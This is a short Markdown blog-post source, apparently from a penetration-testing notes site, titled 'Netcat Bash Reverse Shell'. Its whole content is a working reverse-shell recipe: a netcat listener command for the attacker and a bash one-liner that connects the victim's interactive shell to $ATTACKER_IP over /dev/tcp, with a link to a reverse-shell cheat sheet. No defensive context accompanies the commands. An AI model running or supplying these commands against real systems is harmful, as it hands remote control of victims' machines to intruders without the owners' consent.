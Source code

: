 ```yaml
---
layout: post
title: "Netcat Bash Reverse Shell"
tags: [netcat, bash]
---
```


### Attacker:
```bash
nc -l -p 22222
```

### Victim:
```bash
bash -i >& /dev/tcp/$ATTACKER_IP/22222 0>&1
```

---
1. [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
